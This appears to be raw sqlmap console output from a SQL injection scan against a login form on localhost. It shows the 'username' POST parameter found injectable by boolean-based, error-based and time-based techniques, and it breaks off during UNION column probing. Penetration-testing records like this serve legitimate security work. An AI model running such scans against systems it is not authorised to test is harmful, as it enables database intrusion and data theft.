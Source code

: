 ```
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:31:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:03] [WARNING] reflective value(s) found and filtering out
[14:31:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:31:04] [INFO] testing 'Generic inline queries'
[14:31:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:31:08] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
got a 302 redirect to 'https://127.0.0.1/index.php?popUpNotificationCode=AU1'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[14:31:08] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --code=302)
[14:31:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:31:08] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:31:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:31:09] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:31:09] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:31:09] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[14:31:09] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[14:31:09] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[14:31:09] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:31:09] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:31:09] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[14:31:09] [INFO] testing 'MySQL inline queries'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[14:31:09] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[14:31:09] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:31:28] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:31:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:31:28] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[14:31:28] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:31:28] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:31:29] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[14:31:29] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[14:31:31] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[14:31:34] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[14:31:35] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[14:31:38] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[14:31:40] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[14:31:42] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[14:31:44] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[14:31:46] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
```